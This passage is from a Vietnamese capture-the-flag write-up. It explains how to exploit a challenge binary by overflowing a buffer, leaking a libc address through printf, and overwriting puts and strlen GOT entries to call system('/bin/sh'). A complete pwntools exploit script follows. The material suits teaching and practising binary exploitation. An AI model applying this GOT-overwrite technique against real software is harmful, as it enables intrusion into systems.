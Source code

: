 - khi fgets thì ta sẽ nhập vào puts@got và nó sẽ ở rax , và sau lệnh fgets ta thấy nó sẽ ```mov rdi,rax``` trước khi vào ```strlen@got``` và nó sẽ gọi printf với chuõi định dạng là ```puts@got``` mà ta đã setup  -> leak libc thành công
- sau khi leak thành công nó sẽ tiếp tục dùng fgets để input vào ```puts@got```  , ta sẽ thay đổi nó thành chuỗi /bin/sh và ```strlen@got``` thành system để lấy shell


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
puts = 0x0000000000401258
gets = 0x0000000000401274
payload = b'\x00'
payload = payload.ljust(64,b'a')
payload += p64(exe.got.puts+0x40)
payload += p64(0x00000000004012cc) + p64(gets)

input()
p.sendlineafter(b'Data: ',payload)
print(hex(exe.plt.printf))
p1 = b'%p%p%p%p'
p1 += p64(0x000000000040126a)  #main
p1 += p64(0x401050)
p1 += p64(0x401060)
p1 += p64(0x401070)
p1 += p64(0x401080)
input()
p.sendline(p1)

p.recvuntil(b'Thank for playing :)\n')
libc.address = int(p.recv(14),16) -  0x21ab23
log.info(f'libc: {hex(libc.address)}')

input()
p.sendline(b'/bin/sh\x00' + p64(libc.sym.system))
p.interactive()
```
